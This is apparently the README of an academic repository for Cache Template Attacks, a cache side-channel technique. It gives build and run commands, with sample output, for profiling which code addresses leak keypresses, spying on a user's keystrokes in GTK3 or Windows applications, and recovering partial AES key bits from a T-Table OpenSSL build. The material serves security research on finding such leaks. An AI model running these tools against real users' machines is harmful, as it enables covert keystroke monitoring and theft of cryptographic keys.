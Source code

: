 # Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)" (2014).

The "[Cache Template Attacks](https://www.usenix.org/conference/usenixsecurity15/technical-sessions/presentation/gruss)" paper by Gruss, Spreitzer and Mangard was published at USENIX Security 2015.

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. Based on the histogram it suggests a suitable threshold value (this value is also returned by the program).

**Note:** In most programs I defined a constant MIN_CACHE_MISS_CYCLES. Change it based on your threshold, if necessary.

## Getting started: Automated keypress profiling
It is helpful to start with well observable events like key strokes and an application which is known to process such events (for instance an editor). You find the profiling tools in the profiling folder.

Run the following commands to find keypress information leakage in a program (the program should be running and it should have focus as soon as you started the spy script):
```
cd profiling/linux_low_frequency_example
make
./spy.sh 5 200 gedit # in our example we profile keypresses in gedit
```
The resulting log file is in a format which can be parsed by LibreOffice Calc or similar software.
You can analyze information leakage through the cache using this log file.

## In detail: Keypresses (with libxdotool)
In this example we perform some steps by hand to illustrate what happens in the background.
Therefore, we will first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep gdk-3
7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). This is also the reason why we don't have to think about address space layout randomization.

**Note:** On Windows you can use the tool vmmap to find the same information.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step. Using the libxdo library. Be sure to install it before trying this.

**Note:** There is a second version which runs without libxdo, but then you have to issue the events by some other means.

During the profiling we will simulate a huge number of key presses. Therefore, your test system will probably not be usable for a few minutes to hours. Switch to an already opened gedit window before ./spy is started.
On Linux, run the following lines:
```
cd profiling/linux_low_frequency_example
make
echo "switch to gedit window"
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```
On Windows with MSYS/MinGW, run the following lines:
```
cd profiling/windows_low_frequency_example
mingw32-make
echo "switch to notepad window"
sleep 5; ./spy 200 C:\Windows\System32\notepad.exe > notepad.csv
```

The resulting log file is in a format which can be parsed by LibreOffice Calc or similar software.
You can analyze information leakage through the cache using this log file.

You are generally looking for events which have single high peaks, like the following:
```
file,  addr,   0,   1,   2,   3,   4,   5,   6,   7,   8,   9,   a,   b,   c,   d,   e,   f,   g,   h,   i,   j,   k,   l,   m,   n,   o,   p,   q,   r,   s,   t,   u,   v,   w,   x,   y,   z
/usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2, 0x85ec0,=   3/ 110,=   0/ 112,=   0/ 117,=   0/ 122,=   0/ 120,=   1/ 123,=   0/ 125,=   0/ 123,=   1/ 124,=   0/ 124,=   1/ 123,=   0/ 120,=   0/ 122,=   0/ 121,=   0/ 122,=   0/ 123,=   0/ 122,=   0/ 123,=   1/ 123,=   1/ 121,=   0/ 118,=   0/ 123,=   0/ 122,= 126/ 122,=   0/ 122,=   2/ 117,=   0/ 117,=   0/ 119,=   0/ 121,=   0/ 123,=   3/ 118,=  14/ 122,=   0/ 120,=   0/ 122,=   0/ 117,=   4/ 116
```
This one had 126 cache hits during 122 key presses of the key N. And almost none when pressing other keys.

To verify our results we will now use the generic exploitation spy tool:
```
cd exploitation/generic
make
./spy /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 0x85ec0
```
Now this tool prints a message exactly when a user presses N (in any GTK3 window).
This spy tool can also be used on Windows just like that.

## In detail: Keypresses (without libxdotool)
Without libxdotool we can use the generic low frequency profiling tool.
This tool requires you to generate the events somehow. Depending on what you want to profile this can be another program simulating key strokes, a jammed key, a program which constantly triggers the event to exploit (an encryption...).
In our case we will just jam a key and create a Cache Template showing which addresses react on key strokes. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well. In the previous example we used libxdotool for this purpose.

On Windows or OSX you might not have procfs to retrieve the shared library mappings.
However, on Windows there is vmmap which gives you the same information and on OSX you can use at least ldd and scan the binary itself. Therefore, we execute the generic example tool similar as before:
```
cd profiling/generic_low_frequency_example
make
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```

## OpenSSL AES T-Table attack
This example requires a self-compiled OpenSSL library to enable it's T-Table-based AES implementation.
Place libcrypto.so in the same folder and make sure the program actually uses it as a shared library.
Then run
```
cd profiling/aes_example
make
./spy
```
The T-Table is easily locatable in the log file as there are only 64 addresses which are frequently accessed, but not always accessed.
Subsequently, you can monitor addresses from the profile to derive information about secret keys.

In the exploitation phase the spy tool has to trigger encryptions itself with an unknown key and can then trivially determine the upper 4 bits of each key byte after about 64 encryptions.

Of course, we know that OpenSSL does not use a T-Table-based AES implementation anymore. But you can use this tool to profile any (possibly closed-source) binary to find whether it contains a crypto algorithm which leaks key dependent information through the cache. Just trigger the algorithm execution with fixed keys 

## Fully automated attack
In this example we will run a script which will automatically execute the profiling phase as described before and then switch to the multi_spy exploitation tool as soon as a result is available.

Then run
```
cd exploitation/multi_spy
make
cd ../../profiling/linux_low_frequency_automated
./spy.sh 5 200 /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2
```
The spy tool should switch into exploitation mode after profiling is completed. The result of the profiling phase is printed on the screen, for instance:
```
Events per address:
 0x85d00:q
 0x85d40:q
 0x85d80:ghijklnqtuvwz
 0x85dc0:iuzn
 0x85e00:iznuj
 0x85e40:inzu
 0x85e80:n
 0x85ec0:n
```

That's it, now it's up to you to find out which of your software leaks data and how it could be exploited. I hope it helps you closing these leaks.
